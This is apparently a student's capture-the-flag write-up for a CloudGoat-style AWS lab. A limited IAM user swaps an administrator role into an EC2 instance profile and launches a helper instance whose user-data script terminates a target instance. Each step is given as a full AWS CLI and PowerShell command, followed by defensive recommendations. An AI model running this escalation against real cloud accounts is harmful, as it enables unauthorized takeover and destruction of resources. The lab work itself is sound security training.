


## Challenge Objective

The objective of this challenge was to delete/terminate the target EC2 instance named:


cg-super-critical-security-server-iam_privesc_by_attachment-dona0611

The target EC2 instance ID was:

i-0255a36523e1b98df


In this challenge, the proof of completion was not a normal text flag. The final proof was showing that the target EC2 instance was successfully terminated.

---

# Step-by-Step Solution

To complete the challenge, I took the following steps:

## a. I reviewed the Terraform files and understood the challenge resources

I started by reviewing the Terraform files in the challenge repository, especially:


iam.tf
ec2.tf
outputs.tf
variables.tf
vpc.tf
```

From the Terraform files, I understood that the lab created the following main resources:


1. A limited IAM user called Kerrigan
2. A target EC2 instance called super-critical-security-server
3. A low-privilege IAM role called Meek
4. A high-privilege IAM role called Mighty
5. An EC2 instance profile
6. A VPC, subnet, and security group


The most important discovery was in the IAM permissions for the Kerrigan user. Kerrigan did not have direct permission to terminate EC2 instances, but Kerrigan had other permissions that could be abused together.

The important permissions were:


ec2:RunInstances
iam:ListInstanceProfiles
iam:ListRoles
iam:AddRoleToInstanceProfile
iam:RemoveRoleFromInstanceProfile
ec2:AssociateIamInstanceProfile
ec2:DisassociateIamInstanceProfile
iam:PassRole


The most important idea was that Kerrigan could manipulate an EC2 instance profile and launch a new EC2 instance with a powerful IAM role attached.

---

## b. I deployed the challenge environment using Terraform

I deployed the lab environment using Terraform.

The command I used was:

terraform apply

Terraform created the challenge resources successfully.

The output showed:


Apply complete! Resources: 16 added, 0 changed, 0 destroyed.


Important outputs from Terraform were:

AWS Account ID:
505284749128

Region:
us-east-1

Target instance ID:
i-0255a36523e1b98df

Target instance name:
cg-super-critical-security-server-iam_privesc_by_attachment-dona0611

Instance profile name:
cg-ec2-meek-instance-profile-iam_privesc_by_attachment-dona0611

Meek role name:
cg-ec2-meek-role-iam_privesc_by_attachment-dona0611

Mighty role name:
cg-ec2-mighty-role-iam_privesc_by_attachment-dona0611

Subnet ID:
subnet-094c102c9572a97f7

Security group ID:
sg-021b9ed2b37c0548f


---

## c. I configured the Kerrigan attacker profile

After Terraform created the lab resources, I configured the AWS CLI profile for the Kerrigan IAM user.

The command I used was:

aws configure --profile kerrigan

I entered the Kerrigan access key and secret key from Terraform output.

Then I verified that I was using the Kerrigan identity.

The command was:

aws sts get-caller-identity --profile kerrigan


The output showed that I was using the Kerrigan IAM user:


arn:aws:iam::505284749128:user/cg-kerrigan-iam_privesc_by_attachment-dona0611


This step was important because the challenge had to be solved as the limited Kerrigan user, not as the admin deployment user.

---

## d. I tested direct deletion of the target EC2 instance

First, I tried to terminate the target EC2 instance directly using the Kerrigan profile.

The command was:


aws ec2 terminate-instances --instance-ids i-0255a36523e1b98df --profile kerrigan


The command failed with an authorization error:


UnauthorizedOperation


The error message showed that Kerrigan was not authorized to perform:


ec2:TerminateInstances


This confirmed that Kerrigan could not directly delete the target EC2 instance.

This was an important step because it proved that the solution required privilege escalation instead of a direct delete command.

Screenshot taken:


02-direct-terminate-denied.png


---

## e. I listed the IAM roles available to Kerrigan

Next, I listed the IAM roles that Kerrigan could see.

The command was:


aws iam list-roles --profile kerrigan


In the output, I found two important challenge roles:


cg-ec2-meek-role-iam_privesc_by_attachment-dona0611
cg-ec2-mighty-role-iam_privesc_by_attachment-dona0611


The Meek role was the low-privilege role.

The Mighty role was the high-privilege role.

From the Terraform files, I understood that the Mighty role had administrator-level permissions:

Action = "*"
Resource = "*"


This meant that if I could launch an EC2 instance with the Mighty role attached, that EC2 instance would have permission to terminate the target EC2 instance.

---

## f. I listed the EC2 instance profiles

Then I listed the available EC2 instance profiles.

The command was:


aws iam list-instance-profiles --profile kerrigan


The important instance profile was:


cg-ec2-meek-instance-profile-iam_privesc_by_attachment-dona0611


At first, this instance profile contained the Meek role.

I confirmed this using the command:


aws iam list-instance-profiles --profile kerrigan --query "InstanceProfiles[?InstanceProfileName=='cg-ec2-meek-instance-profile-iam_privesc_by_attachment-dona0611'].Roles[*].RoleName" --output table


The output showed:


cg-ec2-meek-role-iam_privesc_by_attachment-dona0611


This confirmed that the instance profile initially had the weak Meek role attached.

---

## g. I saved the important values as PowerShell variables

To make the commands easier to run, I saved the main values as PowerShell variables.

The commands were:


$REGION="us-east-1"
$TARGET_ID="i-0255a36523e1b98df"
$SUBNET_ID="subnet-094c102c9572a97f7"
$SG_ID="sg-021b9ed2b37c0548f"
$INSTANCE_PROFILE="cg-ec2-meek-instance-profile-iam_privesc_by_attachment-dona0611"
$MEEK_ROLE="cg-ec2-meek-role-iam_privesc_by_attachment-dona0611"
$MIGHTY_ROLE="cg-ec2-mighty-role-iam_privesc_by_attachment-dona0611"


This made the rest of the attack steps easier and reduced typing mistakes.

---

## h. I removed the Meek role from the instance profile

The instance profile originally had the low-privilege Meek role.

Since an EC2 instance profile can only hold one role at a time, I first removed the Meek role.

The command was:


aws iam remove-role-from-instance-profile --instance-profile-name $INSTANCE_PROFILE --role-name $MEEK_ROLE --profile kerrigan


Then I waited for the IAM change to take effect:


Start-Sleep -Seconds 15


This step was important because I needed to make space in the instance profile before adding the Mighty role.

---

## i. I added the Mighty role to the instance profile

After removing the Meek role, I added the high-privilege Mighty role to the same instance profile.

The command was:

aws iam add-role-to-instance-profile --instance-profile-name $INSTANCE_PROFILE --role-name $MIGHTY_ROLE --profile kerrigan


Then I waited again:


Start-Sleep -Seconds 15


This was the main privilege escalation step.

Now the instance profile still had the same name:

cg-ec2-meek-instance-profile-iam_privesc_by_attachment-dona0611


But internally, it contained the Mighty role instead of the Meek role.

---

## j. I confirmed that the Mighty role was attached

I confirmed that the instance profile now contained the Mighty role.

The command was:


aws iam list-instance-profiles --profile kerrigan --query "InstanceProfiles[?InstanceProfileName=='cg-ec2-meek-instance-profile-iam_privesc_by_attachment-dona0611'].Roles[*].RoleName" --output table


The output showed:


cg-ec2-mighty-role-iam_privesc_by_attachment-dona0611


This confirmed that the privilege escalation setup was successful.

Screenshot taken:


03-mighty-role-attached.png


---

## k. I got the AMI ID from the target EC2 instance

To launch a helper EC2 instance, I needed an AMI ID. I reused the same AMI that the target EC2 instance was using.

The command was:


$AMI_ID = aws ec2 describe-instances --instance-ids $TARGET_ID --region $REGION --profile kerrigan --query "Reservations[0].Instances[0].ImageId" --output text


Then I printed the AMI ID:


$AMI_ID


The output was:


ami-02013f5b15758f4d4


This AMI was used to launch the helper EC2 instance.

---

## l. I created a user data script to delete the target EC2 instance

Next, I created a user data script named:


delete-target.sh


The purpose of this script was to run automatically when the helper EC2 instance started.

The script content was:

bash
#!/bin/bash
set -eux
apt-get update -y
DEBIAN_FRONTEND=noninteractive apt-get install -y awscli curl
aws sts get-caller-identity > /tmp/whoami.txt 2>&1
aws ec2 terminate-instances --instance-ids i-0255a36523e1b98df --region us-east-1 > /tmp/terminate-result.txt 2>&1


I created the script from PowerShell using:

powershell
$script = @"
#!/bin/bash
set -eux
apt-get update -y
DEBIAN_FRONTEND=noninteractive apt-get install -y awscli curl
aws sts get-caller-identity > /tmp/whoami.txt 2>&1
aws ec2 terminate-instances --instance-ids i-0255a36523e1b98df --region us-east-1 > /tmp/terminate-result.txt 2>&1
"@ -replace "`r`n", "`n"

[System.IO.File]::WriteAllText("$PWD\delete-target.sh", $script)


Then I checked the script:


type delete-target.sh


I also checked that the file did not have Windows carriage return line endings:


[System.IO.File]::ReadAllText("$PWD\delete-target.sh") -match "`r"


The output was:


False


This was useful because the script was going to run on a Linux EC2 instance, so Unix line endings were safer.

---

## m. I launched a helper EC2 instance with the modified instance profile

After attaching the Mighty role to the instance profile and creating the user data script, I launched a helper EC2 instance.

The command was:


aws ec2 run-instances --image-id $AMI_ID --count 1 --instance-type t2.micro --subnet-id $SUBNET_ID --security-group-ids $SG_ID --iam-instance-profile Name=$INSTANCE_PROFILE --user-data file://delete-target.sh --tag-specifications "ResourceType=instance,Tags=[{Key=Name,Value=cg-helper-delete-target},{Key=Scenario,Value=iam_privesc_by_attachment}]" --region $REGION --profile kerrigan


The helper EC2 instance was created successfully.

The helper instance ID was:


i-01d89465352c62a12


The helper instance used the instance profile:


cg-ec2-meek-instance-profile-iam_privesc_by_attachment-dona0611


Even though the profile name still included "meek", the role inside the profile had already been changed to the Mighty role.

Because of this, the helper EC2 instance received high-level permissions through the Mighty role.

The user data script then ran on startup and executed the terminate command against the target EC2 instance.

---

## n. I verified that the target EC2 instance was terminated

After launching the helper EC2 instance, I waited for the user data script to run.

Then I checked the target instance state.

The command was:


aws ec2 describe-instances --instance-ids $TARGET_ID --region $REGION --profile kerrigan --query "Reservations[0].Instances[0].[InstanceId,State.Name,Tags]" --output table


The expected final state was:


terminated


I also verified the result in the AWS Console by checking the EC2 Instances page and searching for the target instance ID:


i-0255a36523e1b98df


The EC2 console showed that the target instance was terminated.

This completed the challenge.


# Attack Path Summary

My attack path was:


Kerrigan IAM user
        ↓
No direct permission to terminate the target EC2 instance
        ↓
Enumerated IAM roles and instance profiles
        ↓
Found Meek role, Mighty role, and Meek instance profile
        ↓
Removed Meek role from the instance profile
        ↓
Added Mighty role to the instance profile
        ↓
Launched helper EC2 instance with the modified instance profile
        ↓
Helper EC2 received Mighty role permissions
        ↓
Helper EC2 ran the user data script
        ↓
User data script terminated the target EC2 instance
        ↓
Target EC2 instance reached terminated state


The key point is that Kerrigan could not delete the target directly. Instead, Kerrigan used permissions related to instance profiles and EC2 launching to indirectly run commands with the Mighty role.

---,

# Reflection

## What was your approach?

My approach started by reviewing the Terraform files to understand what resources were created by the lab. I looked at the IAM user, roles, instance profile, and EC2 target instance.

First, I confirmed the objective of the challenge, which was to terminate the target EC2 instance. Then I configured the Kerrigan profile and tested whether Kerrigan could terminate the target directly.

The direct terminate command failed with an UnauthorizedOperation error, which confirmed that Kerrigan was limited.

After that, I focused on what Kerrigan was allowed to do. I found that Kerrigan had permissions to list roles and instance profiles, remove and add roles to an instance profile, pass roles, and run EC2 instances.

Once I understood those permissions, I used the instance profile as the privilege escalation path. I replaced the low-privilege Meek role with the high-privilege Mighty role, then launched a helper EC2 instance with that modified profile. The helper EC2 instance used the Mighty role to terminate the target instance.

---

## What was the biggest challenge?

The biggest challenge was understanding that Kerrigan did not need direct `ec2:TerminateInstances` permission to complete the objective.

At first, the direct terminate command failed, so it looked like Kerrigan could not delete the target. The important part was realizing that the permissions Kerrigan had could be combined together.

The confusing part was also understanding the difference between an IAM role and an instance profile. I learned that the IAM role contains the permissions, while the instance profile is the object used to attach that role to an EC2 instance.

Another challenge was that the instance profile name still included "meek", even after I attached the Mighty role. This could be confusing because the name did not change, but the role inside the profile changed.

---

## How did you overcome the challenges?

I overcame the challenges by testing each step slowly and verifying the result before moving to the next step.

First, I confirmed the Kerrigan identity using:


aws sts get-caller-identity --profile kerrigan


Then I confirmed that the direct termination failed. After that, I listed the IAM roles and instance profiles to understand what resources were available.

When the `get-instance-profile` command failed with AccessDenied, I used `list-instance-profiles` instead because Kerrigan had permission for that action. This helped me continue the enumeration without needing extra permissions.

I also verified the role attached to the instance profile before and after the role swap. This helped me confirm that the privilege escalation step worked.

Finally, I used a user data script so that the helper EC2 instance could automatically run the termination command after launch.

---

## What led to the breakthrough?

The breakthrough happened when I confirmed that the instance profile was changed from the Meek role to the Mighty role.

Before the change, the profile showed:


cg-ec2-meek-role-iam_privesc_by_attachment-dona0611


After the change, it showed:


cg-ec2-mighty-role-iam_privesc_by_attachment-dona0611


That confirmed that the helper EC2 instance would receive the high-privilege role when it launched.

Another important breakthrough was successfully launching the helper EC2 instance with the modified instance profile. The helper instance ran the user data script and terminated the target instance. Seeing the target EC2 instance in the terminated state confirmed that the challenge was completed.

---

## On the blue side, how can the learning be used to properly defend the important assets?

This lab shows that indirect permissions can be very dangerous in cloud environments.

Even if a user cannot directly perform a sensitive action, the user may still be able to reach the same result by controlling another AWS service that has higher privileges.

To defend important assets, the following protections should be used:

a. Apply least privilege to all IAM users and roles.

b. Do not give low-privileged users permission to modify instance profiles.

c. Restrict dangerous IAM permissions such as:


iam:AddRoleToInstanceProfile
iam:RemoveRoleFromInstanceProfile
iam:PassRole


d. Restrict `ec2:RunInstances` so users cannot launch EC2 instances with sensitive instance profiles.

e. Do not allow low-privileged users to pass administrator roles to EC2.

f. Use IAM conditions such as `iam:PassedToService` to control which AWS service can receive a role.

g. Avoid giving EC2 roles AdministratorAccess unless absolutely required.

h. Separate administrative roles from application roles.

i. Monitor CloudTrail logs for suspicious actions such as:


AddRoleToInstanceProfile
RemoveRoleFromInstanceProfile
RunInstances
PassRole
TerminateInstances


j. Create alerts for changes to IAM roles, instance profiles, and EC2 instance profile associations.

k. Regularly review IAM policies for privilege escalation paths, not only individual permissions.

The main lesson is that cloud security teams should review how permissions work together. A permission may look harmless alone, but it can become dangerous when combined with other permissions.

---

